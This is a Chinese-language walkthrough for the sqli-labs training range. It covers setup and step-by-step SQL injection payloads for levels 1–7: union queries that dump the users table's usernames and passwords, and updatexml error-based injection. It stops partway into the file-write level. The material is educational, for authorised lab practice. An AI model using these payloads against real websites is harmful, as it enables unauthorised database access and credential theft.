# sqli-labs 靶场通关笔记

> **分章阅读（新结构）**：本文件保留为原始完整笔记，便于对照与回溯。建议从 [SQLi-Labs 分章索引](notes/sqli-labs/README.md) 阅读拆分后的章节： [环境与基础](notes/sqli-labs/00-overview.md) · [Less-1–10](notes/sqli-labs/01-less-01-10.md) · [Less-11–20](notes/sqli-labs/02-less-11-20.md) · [Less-21–30](notes/sqli-labs/03-less-21-30.md) · [Less-31–40](notes/sqli-labs/04-less-31-40.md) · [Less-41–50](notes/sqli-labs/05-less-41-50.md) · [Less-51–65](notes/sqli-labs/06-less-51-65.md) · [速查与防御](notes/sqli-labs/07-reference-defense.md)。

> **适用范围**：仅限本地 / 授权靶场练习。sqli-labs 是故意存在 SQL 注入漏洞的教学平台，请勿对未授权系统使用文中手法。\
> **项目地址**：<https://github.com/Audi-1/sqli-labs>
>
> 在线靶场：<https://ctf.hscsec.cn/range/sqli-labs/>

***

## 1. 概述

### 什么是 SQL 注入

当 Web 应用向后台数据库传递 <font style="color:#DF2A3F;">SQL 语句</font> 进行数据库操作时，如果对用户输入的参数<font style="color:#DF2A3F;">没有经过严格的过滤处理</font>，那么攻击者就可以构造特殊的 SQL 语句，直接输入数据库引擎执行，获取或修改数据库中的数据。

### 系统库

在<font style="color:#DF2A3F;">5.0</font>以上的大版本提供了访问数据库元数据（sql 服务自带的数据库）的方式。

\*\*<font style="color:#DF2A3F;">information_schema </font>\*\***库**：是信息数据库，其中保存着关于 MySQL 服务器所维护的所有其他数据库的信息(例如数据库或表的名称，列的数据类型或访问权限)

SCHEMATA 表：提供了所有数据库信息。

* schema_name：数据库名

TABLES 表：提供了所以表的信息。

* table_name：表名
* table_schema：表所属的数据库

COLUMNS 表：详细描述了每张表的所有列的信息。

* column_name：字段名
* table_name：字段所属的表名
* table_schema：表所属的数据库名

**performance_schema 库**：具有87张表，MySQL 5.5开始新增的一个数据库，主要用于收集数据库服务器性能参数。内存数据库，数据放在内存中直接操作的数据库。相对于磁盘，内存的数据读写速度要高出几个数量级。

**mysql 库**：是核心数据库，类似于 sql server中的 master 表，主要负责存储数据库的用户（账户）信息、权限设置、关键字等 mysql 自己需要使用的控制和管理信息。常用举例：在 mysql.user（5.7版本之前）表中修改root 用户的密码 sys 库

**sys 库**：sys 库是 MySQL 5.7 增加的系统数据库，这个库是通过视图的形式把 information_schema 和 performance_schema 结合起来，查询出更加令人容易理解的数据。可以查询谁使用了最多的资源，哪张表访问最多等。

sqli-labs（作者 Audi-1）是经典的 SQL 注入练习平台，覆盖报错注入、联合查询、布尔/时间盲注、POST、Header、二次注入、过滤绕过、堆叠查询等场景。关卡目录一般为 Less-1 ~ Less-65（含部分 `Less-25a` 等变体）。

| 项目 | 说明 |
| --- | --- |
| 仓库 | <https://github.com/Audi-1/sqli-labs> |
| 技术栈 | PHP + MySQL/MariaDB |
| 数据库名（默认） | `security` |
| 常见练习表 | `users`（含 `id/username/password` 等） |
| 官方说明 | 见仓库 `readme.md` |

### 官方覆盖的知识点分类

| 类别 | 含义（中文） |
| --- | --- |
| Error Based（Union） | 报错 / 联合查询（字符串、整型等） |
| Double Injection | 双查询报错类注入 |
| Blind Boolean / Time | 布尔盲注 / 时间盲注 |
| Update / Insert | 更新、插入语句中的注入 |
| Header Injection | Referer / User-Agent / Cookie |
| Second Order | 二次注入 |
| WAF / Blacklist Bypass | 绕过注释、OR/AND、空格、UNION 等过滤 |
| addslashes / escape | 转义函数绕过（含特殊条件） |
| Stacked queries | 堆叠查询 |
| Challenge（约 54–65） | 限次数取 key 等综合题 |

***

## 2. 安装步骤

### 2.1 环境要求

* PHP（传统环境常用 5.x；也有社区 PHP7+ 适配版），推荐使用 PHP 5.3.29。
* MySQL 或 MariaDB
* Apache / Nginx
* 浏览器；建议配合 Burp Suite

> 注意：原版大量使用已弃用的 `mysql_*` 函数，**PHP 7+ 默认不可用**。若本机是新 PHP，请用 Docker 镜像，或找标注支持 PHP7 的 fork。

### 2.2 方式一：源码 + phpStudy / LAMP（传统）

```bash
git clone https://github.com/Audi-1/sqli-labs.git
# 将目录放到网站根目录，例如 /var/www/html/sqli-labs 或 phpStudy 的 WWW
```

1. 编辑数据库账号文件：

```latex
sqli-labs/sql-connections/db-creds.inc
```



常见字段含义：

| 配置项 | 中文含义 | 示例 |
| --- | --- | --- |
| `$dbuser` | 数据库用户名 | `root` |
| `$dbpass` | 数据库密码 | `root` / 空 / `toor` |
| `$dbname` | 库名（部分文件） | `security` |
| `$host` | 数据库主机 | `localhost` |

2. 浏览器访问：

```latex
http://127.0.0.1/sqli-labs/
```

3. 点击页面上的 **Setup/resetDB**（或类似「重建数据库」链接），创建库表并导入数据。



4. 再点各 **Lesson / Less-x** 开始练习。

### 2.3 方式二：Docker（推荐，少踩 PHP 版本坑）

社区常见用法示例（镜像名可能因维护者而异，请以实际拉取结果为准）：

```bash
# 示例：部分环境可直接使用已有镜像
docker pull acgpiano/sqli-labs
docker run -dt --name sqli-labs -p 80:80 acgpiano/sqli-labs
```

访问：

```latex
http://127.0.0.1:80/
```



### 2.4 验证安装

* 首页能打开各 Less 链接
* Less-1 访问 `?id=1` 能显示用户信息



* `?id=1'` 在报错关应出现 SQL 语法错误信息（便于学习）

***

## 3. 基本使用

### 3.1 推荐练习顺序

1. **Less-1～10**：GET 报错 / 联合 / 盲注基础
2. **Less-11～17**：POST、更新、头注入入门
3. **Less-18～22**：UA / Referer / Cookie / 二次相关
4. **Less-23～28**：过滤、注释、空格等绕过
5. **Less-29～37**：更复杂过滤与转义
6. **Less-38～53**：堆叠、进阶变体
7. **Less-54～65**：限次 Challenge

### 3.2 通用手注流程（有回显时）

1. 判断注入点与闭合：`' " ) )` 等
2. 注释尾巴：`--+` 或 `%23`（`#`）
3. `order by n` 判列数
4. `union select` 找回显位
5. 查库 → 表 → 列 → 数据（`information_schema`）

### 3.3 数据库结构（默认 security）

练习中最常用：

| 对象 | 说明 |
| --- | --- |
| 库 `security` | 默认靶场库 |
| 表 `users` | 用户表 |
| 字段 | `id`, `username`, `password` 等 |

***

## 4. 重要参数与 SQL 片段说明

| 名称 | 中文含义 |
| --- | --- |
| `id` | 最常见的 GET 注入参数 |
| `uname` / `passwd` | POST 登录类关卡用户名/密码参数 |
| `' / " / )` | 字符串或括号闭合符 |
| `--+` / `#` | 注释掉后面原 SQL |
| `order by n` | 探测查询列数 |
| `union select` | 联合查询，合并结果集 |
| `information_schema` | MySQL 元数据库（库名/表名/列名） |
| `group_concat()` | 把多行拼成一个字符串便于一次回显 |
| `updatexml()` / `extractvalue()` | 报错注入常用函数 |
| `sleep(n)` / `benchmark()` | 时间盲注延时 |
| `substr` / `ascii` / `length` | 盲注逐字符判断 |
| `0x...` 十六进制 | 绕过引号被转义时写字符串 |

### 常用的系统函数

1. version()——MySQL 版本
2. user()——数据库用户名
3. database()——数据库名
4. @@datadir——数据库路径
5. @@version_compile_os——操作系统版本

### 常用的字符串连接函数

1. concat(str1,str2,...)——没有分隔符地连接字符串
2. concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串
3. group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据

***

## 5. 通关详解（按关卡类型）

> 下列为**教学向标准思路与示例 payload**。不同 PHP/MySQL 版本报错文案可能不同；以本地回显为准。\
> 注释在 URL 中常用 `--+`（`--` 后需要空格）或 `%23`。

***

### Basic Challenges 基本挑战

### Less-1：GET · 单引号字符型 · 报错 / 联合注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-1/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（单引号包裹） |
| 有无报错回显 | 有（语法错误会直接显示） |
| 典型 SQL 形态 | `... WHERE id='$id' LIMIT 0,1` |

#### 源码逻辑（理解用）

参数 `$id` 被拼进带**单引号**的 SQL，未做有效过滤。输入 `'` 可破坏语句结构，从而注入。

#### 解题步骤

**1）确认注入点**

```latex
?id=1
?id=1'
```

* `id=1`：正常显示用户名/密码一类信息
* `id=1'`：页面出现 MySQL 语法错误 → 存在注入，且为字符型





**2）判断列数**

```latex
?id=1' order by 1--+
?id=1' order by 2--+
?id=1' order by 3--+
?id=1' order by 4--+
```

* `order by 3` 成功、`order by 4` 报错 → 查询结果为 **3 列**





**3）找显示位（联合查询）**

用不存在的 id，让原查询无结果，只显示 `union` 的结果：

```latex
?id=-1' union select 1,2,3--+
```

观察页面哪一列数字出现在「用户名/密码」位置（常见为第 2、第 3 列）。



**4）查库名**

```latex
?id=-1' union select 1,database(),version()--+
```



**5）查表名**

```latex
?id=-1' union select 1,group_concat(table_name),3
from information_schema.tables
where table_schema='security'--+
```

（写在一行 URL 里即可，此处换行仅方便阅读。）



**6）查列名**

```latex
?id=-1' union select 1,group_concat(column_name),3
from information_schema.columns
where table_schema='security' and table_name='users'--+
```



**7）查数据**

```latex
?id=-1' union select 1,group_concat(username,0x3a,password),3
from users--+
```

`0x3a` 是字符 `:` 的十六进制，用来拼接「用户名:密码」。



#### 要点小结

| 点 | 说明 |
| --- | --- |
| 闭合 | 先写 `'` 关掉原引号 |
| 注释 | `--+` 或 `%23` 注释掉后面的 `'` 和 `LIMIT` |
| `-1'` | 避免原查询有行，干扰 union 回显 |

***

### Less-2：GET · 整型注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-2/?id=1` |
| 类型 | 数字型（SQL 中 id 无引号） |
| 典型 SQL 形态 | `... WHERE id=$id LIMIT 0,1` |

#### 与 Less-1 的区别

整型注入**不需要**用 `'` 闭合字符串。输入 `'` 也可能报错，但构造 payload 时一般写成：

```latex
?id=1 order by 3--+
```

而不是 `1' order by 3--+`。

#### 解题步骤

**1）探测**

```latex
?id=1
?id=1 and 1=1--+
?id=1 and 1=2--+
```

真/假条件导致回显不同，或直接报错，可确认注入。





**2）列数与联合**

```latex
?id=1 order by 3--+
?id=-1 union select 1,2,3--+
```



**3）取数（示例）**

```latex
?id=-1 union select 1,database(),3--+
?id=-1 union select 1,group_concat(username,0x3a,password),3 from users--+
```





#### 要点小结

数字型：`and` / `or` / `union` 直接跟在数字后；不要多加一层字符串引号（除非你在测报错信息）。

***

### Less-3：GET · 单引号 + 括号 `')`

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 典型 SQL 形态 | `... WHERE id=('$id') LIMIT 0,1` |
| 闭合方式 | `'` 之后还要补 `)` |

#### 如何判断闭合

```latex
?id=1'
?id=1')
?id=1')--+
```

能消除报错或逻辑正确时，说明需要 `')` 闭合。



#### 解题步骤

```latex
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),3--+
?id=-1') union select 1,group_concat(username,0x3a,password),3 from users--+
```



#### 要点小结

原 SQL 用了 `('$id')` 时，注入串形态为：

```latex
$payload = -1') union select 1,2,3--+
```

对应拼出：`id=('-1') union select 1,2,3-- ...)`，前半合法闭合，后面被注释。

***

### Less-4：GET · 双引号 + 括号 `")`

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 典型 SQL 形态 | `... WHERE id=("$id") LIMIT 0,1` |
| 闭合方式 | `")` |

#### 解题步骤

```latex
?id=1"
?id=1")--+
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,group_concat(username,0x3a,password),3 from users--+
```





#### 要点小结

与 Less-3 相同思路，只是引号从单引号换成双引号。

***

### Less-5：GET · 单引号 · 双查询 / 报错型（弱数据回显）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 回显特点 | 成功时多显示固定文案（如 You are in……），**不一定**回显 username/password 字段 |
| 闭合 | 单引号 `'` |
| 常用手法 | 报错注入；也可布尔/时间盲注 |

#### 现象对比

| 输入 | 可能现象 |
| --- | --- |
| `?id=1` | You are in…… |
| `?id=1'` | 数据库错误信息 |
| `?id=1' and 1=1--+` | You are in…… |
| `?id=1' and 1=2--+` | 无 “in” 或另一种提示 |

字段联合回显可能「看不到 2、3 列内容」，故改用**报错把数据打到错误消息里**。

#### 报错注入示例

```latex
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```



```latex
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+
```



```latex
?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)--+
```



也可试 `extractvalue(1,concat(0x7e,(...)))`。注意报错函数一次能回显的长度有限，数据长时需 `limit` 分段。

#### 双查询报错（部分环境）

利用子查询返回多行触发报错，从而带出数据（具体语法依赖 MySQL 版本与题目写法）。上手优先掌握 `updatexml` / `extractvalue` 即可。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-1 差异 | 页面不靠 union 显示位吃数据 |
| 核心技能 | 报错注入读数据 |
| 备选 | 布尔/时间盲注（同 Less-8/9 思路） |

***

### Less-6：GET · 双引号 · 同 Less-5 弱回显

#### 关卡信息

与 Less-5 类似，闭合改为**双引号**。

#### 解题步骤

```sql
?id=1"
?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
?id=1" and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)--+
```





#### 要点小结

先确认 `"..."` 闭合，再套报错函数；其余与 Less-5 相同。

***

### Less-7：GET · 文件写入类（outfile）提示

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 页面提示 | 常与 dumpfile / outfile 相关 |
| 闭合 | 多为 `'))` 一类（以实际报错为准） |
| 目标 | 理解「注入写文件」；权限不足时仍可用联合/报错取数 |

#### 判断闭合（示例）

```latex
?id=1'
?id=1')
?id=1'))
?id=1'))--+
```



#### <font style="color:rgb(0, 0, 0);">写入文件配置（使用条件）</font>

**secure-file-priv**

如果文件导入不成功，确认 MySQL 配置文件 my.ini 下存在 **secure-file-priv**

